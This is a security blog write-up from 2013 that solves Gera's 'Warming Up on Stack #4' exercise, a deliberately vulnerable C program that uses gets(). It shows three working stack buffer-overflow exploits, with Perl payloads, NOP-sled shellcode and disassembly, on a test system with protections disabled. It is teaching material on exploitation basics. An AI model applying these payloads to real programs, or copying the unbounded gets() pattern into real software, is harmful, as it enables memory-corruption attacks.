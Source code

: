 Gera's Warming Up on Stack #4 - Solutions
==========================================
date: 04/Jan/2013
summary: Solutions for Gera's Warming up on Stack #4 program.
tags: exploit, mitigations, buffer overflow, writeups

Following is the part 4 in the series of posts I started back in August
2012 with an aim to provide an analysis and possible solutions for the
vulnerable programs provided by
[Gera](http://corelabs.coresecurity.com/index.php?module=Wiki&action=view&type=researcher&name=Gerardo_Richarte)
at his [Insecure
Programming](http://community.corest.com/%7Egera/InsecureProgramming/)
by example page.

This post follows the [Gera's Warming Up on Stack #3 -
Solutions](/2013/geras-wuos-stack3-solutions.html) post and if you have
not read it, I request you to please do so. Most of the concepts are
very similar and since they have been already talked about, I'll not be
reiterating them here.

Let's get started. Below is the source for the vulnerable
[stack4.c](http://community.corest.com/%7Egera/InsecureProgramming/stack4.html)
program:

```c
/* stack4.c                                     *
 * specially crafted to feed your brain by gera */

int main() {
    int cookie;
    char buf[80];

    printf("buf: %08x cookie: %08x\n", &buf, &cookie);
    gets(buf);

    if (cookie == 0x000a0d00)
        printf("you win!\n");
}
```

The above program too accepts user-input through the `gets` function and
then looks for a specific value in a local variable named `cookie`. If
this value is equal to a certain pre-defined constant, `printf` function
is used to show a `you win!` message to the user. There is no direct
means of modifying the content of the `cookie` variable. The `gets`
function will keep reading from the stdin device until it encounters a
newline or EoF character. Since this reading loop fails to honor the
size of the destination buffer, a classic buffer overflow vulnerability
is introduced in the program. Our aim is to leverage this vulnerability
and exploit this program so that it print the `you win!` message to
stdout.

Here are a few observations that could be made by looking at the source
of the program:

1.  Since it is defined prior to buf, the `cookie` would be placed at a
    higher memory address on the program stack, just below the saved
    registers from the function prologue
2.  The `buf` character array would be at an offset of at least 80B from
    `cookie`
3.  The `gets` call would accept unbounded user-input within `buf` array
    and hence it provides a mechanism to alter the call stack contents

Stack layout for
[stack4.c](http://community.corest.com/%7Egera/InsecureProgramming/stack4.html)
is identical to
[stack1.c](http://community.corest.com/%7Egera/InsecureProgramming/stack1.html)
as already outlined in the [Gera's Warming Up on Stack #1 -
Solutions](/2012/8/27/geras-wuos-stack1-solutions/) post.

Here are solutions I could think of to get the `you win!` message
printed:

-   Solution #1: Overflow the internal buf array to overwrite EIP with
    the address of `printf(you win!)`
-   Solution #2: Inject a NOP-prefixed `printf(you win!)` shellcode and
    overwrite EIP with its address
-   Solution #3: Inject a NOP-prefixed `printf(you win!)` shellcode
    through an environment var and overwrite EIP with its address

Unlike earlier programs, where Solution #1 suggested overflowing the
character array to overwrite `cookie` with desired value,
[stack4.c](http://community.corest.com/%7Egera/InsecureProgramming/stack4.html)
coud not be exploited in that manner. This is beacuse the `cookie` has
been initialized with 0x000a0d00 and if we inject this string, the
newline character (0x0a) will cause the `gets` internal read to stop
processing further characters, thereby breaking our exploit. As such we
won't be using this technqiue but rather use alternate methods.

Here's a brief description of the test system:

```bash
# cat /etc/lsb-release | grep DESC ; uname -a | cut -d' ' -f1,3,12-13 ; gcc --version | grep gcc ; cat /proc/cpuinfo | grep -E '(vendor|model|flags)'
DISTRIB_DESCRIPTION=*Ubuntu 10.04.2 LTS*
Linux 2.6.38 i686 GNU/Linux
gcc (Ubuntu 4.4.3-4ubuntu5) 4.4.3
vendor_id   : GenuineIntel
model       : 37
model name  : Intel(R) Core(TM) i3 CPU       M 350  @ 2.27GHz
flags       : fpu vme de pse tsc msr pae mce cx8 apic sep mtrr pge mca cmov pat pse36 clflush mmx fxsr sse sse2 syscall nx lm constant_tsc up pni monitor ssse3 lahf_l
```

Solution #1: Overflow the internal buf array to overwrite EIP with the address of printf(you win!)
---------------------------------------------------------------------------------------------------

Here's the GCC commandline to prepare
[stack4.c](http://community.corest.com/%7Egera/InsecureProgramming/stack4.html)
for this solution:

```bash
# gcc -mpreferred-stack-boundary=2 -fno-stack-protector -o stack4 stack4.c
stack4.c: In function ‘main’:
stack4.c:9: warning: incompatible implicit declaration of built-in function ‘printf’
stack4.c:9: warning: format ‘%08x’ expects type ‘unsigned int’, but argument 2 has type ‘char (*)[80]’
stack4.c:9: warning: format ‘%08x’ expects type ‘unsigned int’, but argument 3 has type ‘int *’
/tmp/ccxoPw3D.o: In function `main':
stack4.c:(.text+0x27): warning: the `gets' function is dangerous and should not be used.
```

We need to have a look at the assembly of
[stack4.c](http://community.corest.com/%7Egera/InsecureProgramming/stack4.html)
and find out the location of the `printf` function which displays the
`you win!` message:

```c-objdump
# objdump -d -M intel stack4 | grep -A20 main.:
08048444 <main>:
 8048444:   55                      push   ebp
 8048445:   89 e5                   mov    ebp,esp
 8048447:   83 ec 60                sub    esp,0x60
 804844a:   8d 45 fc                lea    eax,[ebp-0x4]
 804844d:   89 44 24 08             mov    DWORD PTR [esp+0x8],eax
 8048451:   8d 45 ac                lea    eax,[ebp-0x54]
 8048454:   89 44 24 04             mov    DWORD PTR [esp+0x4],eax
 8048458:   c7 04 24 50 85 04 08    mov    DWORD PTR [esp],0x8048550
 804845f:   e8 0c ff ff ff          call   8048370 &lt;printf@plt&gt;
 8048464:   8d 45 ac                lea    eax,[ebp-0x54]
 8048467:   89 04 24                mov    DWORD PTR [esp],eax
 804846a:   e8 e1 fe ff ff          call   8048350 &lt;gets@plt&gt;
 804846f:   8b 45 fc                mov    eax,DWORD PTR [ebp-0x4]
 8048472:   3d 00 0d 0a 00          cmp    eax,0xa0d00
 8048477:   75 0c                   jne    8048485 &lt;main+0x41&gt;
 8048479:   c7 04 24 68 85 04 08    mov    DWORD PTR [esp],0x8048568
 8048480:   e8 fb fe ff ff          call   8048380 &lt;puts@plt&gt;
 8048485:   c9                      leave
 8048486:   c3                      ret
 8048487:   90                      nop
```

The address turns out to be 0x8048479. Let's try exploiting:

```bash
# perl -e 'print "A"x88 . "\x79\x84\x04\x08"' | ./stack4
buf: bfee4144 cookie: bfee4194
you win!
Segmentation fault
```

Solution #2: Inject a NOP-prefixed printf(`you win!`) shellcode and overwrite EIP with its address
---------------------------------------------------------------------------------------------------

Let's first recompile
[stack4.c](http://community.corest.com/%7Egera/InsecureProgramming/stack4.html)
and request GCC to mark program stack as executable. Additionally, we
also need to turn ASLR off so that we can have a static return address
to overwrite EIP with:

```bash
# gcc -mpreferred-stack-boundary=2 -fno-stack-protector -z execstack -o stack4 stack4.c 2>/dev/null ; readelf -l stack4 | grep GNU_STACK
  GNU_STACK      0x000000 0x00000000 0x00000000 0x00000 0x00000 RWE 0x4
#
# echo 0 >/proc/sys/kernel/randomize_va_space ; cat /proc/sys/kernel/randomize_va_space
0
```

Let's go ahead with exploitation. The Null-free, NOP-prefixed
`printf(you win!)` shellcode we used to exploit
[stack1.c](http://community.corest.com/%7Egera/InsecureProgramming/stack1.html)
in the [Gera's Warming Up on Stack #1 -
Solutions](/2012/8/27/geras-wuos-stack1-solutions/) post could be reused
here:

```bash
# ./stack4
buf: bffff4c4 cookie: bffff514
#
# ./stack4
buf: bffff4c4 cookie: bffff514
#
# ./stack4
buf: bffff4c4 cookie: bffff514
#
# perl -e 'print "\x90"x51 . "\xeb\x16\x31\xc0\x31\xdb\x31\xd2\xb0\x04\xb3\x01\x59\xb2\x09\xcd\x80\x31\xc0\x40\x31\xdb\xcd\x80\xe8\xe5\xff\xff\xff\x79\x6f\x75\x20\x77\x69\x6e\x21" . "\xc4\xf4\xff\xbf"' | ./stack4
buf: bffff4c4 cookie: bffff514
you win!#
```

Solution #3: Inject a NOP-prefixed printf(you win!) shellcode through an environment var overwrite EIP with its address
------------------------------------------------------------------------------------------------------------------------

Lets get straight to the exploitation:

```bash
# echo $WINCODE | hexdump -C
00000000  eb 16 31 c0 31 db 31 d2  b0 04 b3 01 59 b2 20 cd  |..1.1.1.....Y. .|
00000010  80 31 c0 40 31 db cd 80  e8 e5 ff ff ff 79 6f 75  |.1.@1........you|
00000020  20 77 69 6e 21 20 0d 0a                           | win! ..|
00000028
#
# ./getenvaddr WINCODE ./stack4
[+] WINCODE: 0xbffff726
#
# perl -e 'print "\x90"x88 . "\x26\xf7\xff\xbf"' | ./stack4
buf: bffff4c4 cookie: bffff514
you win!
```

So, we have now successfully exploited the
[stack4.c](http://community.corest.com/%7Egera/InsecureProgramming/stack4.html)
program through three different techniques. Depending on the motive of
your exploitation attempt, other techniques could be devised and some,
mentioned here, be rejected.

Like I said, earlier, these solutions are not practical anymore. They
just serve the purpose of understanding how exploits used to work before
mitigation features were introduced in modern systems. But, as with
everything else, understanding basics is really important. As mitigation
features mature, exploitation techniques become increasingly complex.
And to understand those, we need to build upon the solid foundation of
basic concepts, like those discussed on this and other blogs.
